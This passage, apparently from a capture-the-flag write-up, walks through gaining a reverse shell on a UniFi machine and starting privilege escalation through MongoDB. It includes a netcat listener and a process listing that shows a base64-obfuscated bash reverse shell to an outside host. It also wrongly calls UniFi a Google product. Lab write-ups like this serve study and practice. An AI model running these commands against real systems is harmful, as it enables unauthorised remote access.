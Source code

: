 And we will obtain a reverse shell connection from the machine.

```
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.198.222] 59856
hostname -I
10.129.198.222 172.17.0.1 dead:beef::250:56ff:fe96:fd4e 
whoami
unifi
```

We are now `unifi` and can `cat` the user flag inside `/usr/lib/unifi`

# Privilege Escalation

### Enumerating the system

Listing the active processes in the system we find that there is a running instance of MongoDB and we can see the credentials and database used.

```shell
unifi@unified:/usr/lib/unifi$ ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
unifi          1  0.0  0.0   1080     4 ?        Ss   18:17   0:00 /sbin/docker-init -- /usr/local/bin/docker-entrypoint.sh unifi
unifi          7  0.0  0.1  18512  3176 ?        S    18:17   0:00 bash /usr/local/bin/docker-entrypoint.sh unifi
unifi         17  3.8 28.4 3707116 579108 ?      Sl   18:17   0:57  \_ java -Dunifi.datadir=/unifi/data -Dunifi.logdir=/unifi/log -Dunifi.rundir=/var/run/unifi -Xmx1024M -Djava.awt.headless=true -Dfile.encoding=UTF-8 -jar /usr/lib/unifi/lib/a
unifi         67  0.4  4.1 1103744 85108 ?       Sl   18:17   0:07      \_ bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log -
unifi        817  0.0  0.1  18380  2988 ?        S    18:41   0:00      \_ bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjcvNDQ0NCAwPiYxCg}|{base64,-d}|{bash,-i}
unifi        821  0.0  0.1  18512  3320 ?        S    18:41   0:00          \_ bash -i
unifi        824  0.0  0.1  18380  3024 ?        S    18:41   0:00              \_ bash
unifi        852  0.0  0.1  19312  2272 ?        S    18:41   0:00                  \_ script /dev/null -c bash
unifi        853  0.0  0.0   4632   780 pts/0    Ss   18:41   0:00                      \_ sh -c bash
unifi        854  0.0  0.1  18512  3408 pts/0    S    18:41   0:00                          \_ bash
unifi        886  0.0  0.1  34408  2908 pts/0    R+   18:43   0:00                              \_ ps -faux
unifi@unified:/usr/lib/unifi$ 
```

Using MongoDB connection commands, we can list the active users for the default `UniFi` database which is `ace` (Google UniFi default database).

### Modifying UniFi user credentials
